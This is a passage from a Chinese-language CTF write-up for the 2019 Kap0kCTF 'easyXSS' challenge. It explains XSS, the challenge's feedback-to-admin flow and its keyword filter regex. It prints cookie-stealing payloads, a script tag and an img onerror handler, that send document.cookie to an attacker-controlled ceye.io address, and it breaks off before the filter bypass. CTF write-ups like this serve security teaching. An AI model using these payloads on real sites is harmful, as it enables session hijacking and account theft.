 # Kap0kCTF_2019_Web_WP

本来预计大概5题会有3个题可以解（不包括签到的ping题），翻车了翻车了

## easyXSS

0 solved 

### 解题思路

鉴于许多人还不了解XSS，因此这道题的wp会写的比较详细

首先从题目 `easyXSS`, 显然是XSS的题目，引用介绍

> XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、ActiveX、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容

简单来说就是注入js代码

然后我们看一下这个题，是一个很标准的xss的题目，主要功能有两个，一个是post写留言，一个是feedback发送给管理员

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20191118005541.png)可以注意到有个cookie，提示flag在管理员的cookie

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20191118005452.png)

那么如何拿到管理员的cookie，自然是利用feedback，先看feedback，有两个参数，一个是post ID，也就是我们的留言md5，一个是验证码

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20191118005606.png)

验证码可以直接搜一下`md5截断比较`, 是一个经典的考点了，直接就可以跑出来

那这个题的思路就是通过feedback将我们的留言发送给管理员从而窃取cookie，当然这里有个要求是cookie的`httponly`为false，如果是true是读不到的，因此我们需要构造留言来获取cookie，如果写过js的可能很清楚，在js里面获取cookie可以直接

document.cookie

看一下留言部分, 简单测试一下可以看到过滤

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20191118010035.png)

这里过滤了几个常见的标签和两个事件，假设我们这里有script，那只需要

```html
<script>document.location="http://xxxx.ceye.io/"+document.cookie</script>
```

`document.location`用来做跳转，其中的`ceye.io`是一个dns平台，也可以使用vps nc接受，如果有img标签呢

```html
<img src=1 onerror="javascript:document.location='http://xxxx.ceye.io/'+document.cookie" />
```

很遗憾这里都被过滤了，但是我们细看一下这个过滤

```
/script|<img|<a|<frame| onload|onerror/is
```
